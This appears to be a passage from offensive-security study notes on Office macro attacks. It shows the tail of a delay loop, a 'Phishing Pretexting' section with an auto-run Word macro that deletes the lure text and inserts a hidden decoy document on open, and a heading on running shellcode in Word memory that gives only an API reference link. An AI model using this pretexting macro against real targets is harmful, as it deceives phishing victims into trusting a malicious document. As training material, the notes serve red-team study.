 ```powershell
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub

```


## Phishing Pretexting
### The Old Switcheroo
![This is an image](./Client%20Side%20Code%20Execution/oldswitcheroo.png)

**Substitution Page with Macro**
```vb
Sub Document_Open()
    SubsPage
End Sub
Sub AutoOpen()
    SubsPage
End Sub
Sub SubsPage()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
End Sub
```


## Executing Shellcode in Word Memory
### Calling Win32 API in VBA
```
https://www.pinvoke.net/default.aspx/advapi32.getusername
```
